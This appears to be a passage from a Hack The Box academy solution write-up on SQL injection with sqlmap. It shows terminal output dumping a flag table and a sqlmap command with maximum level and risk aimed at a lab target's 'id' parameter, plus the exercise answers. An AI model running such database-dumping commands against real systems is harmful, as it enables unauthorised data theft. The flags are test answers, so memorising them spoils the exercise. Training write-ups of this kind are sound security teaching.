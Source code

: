 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -r request.txt --batch --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:07:45 /2022-09-29/

<SNIP>

Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+

<SNIP>
```

Answer: `HTB{j450n_v00rh335_53nd5_6r475}`

# Attack Tuning

## Question 1

### "What's the contents of table flag5? (Case #5)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #5" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/a6cd9b3b8a7e20f6cbed15381209e513_MD5.jpg]]

Thus, the `sqlmap` command will be as follows (`-T flag5` specifies the table to be dumped, instead of all the tables):

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case5.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump
```
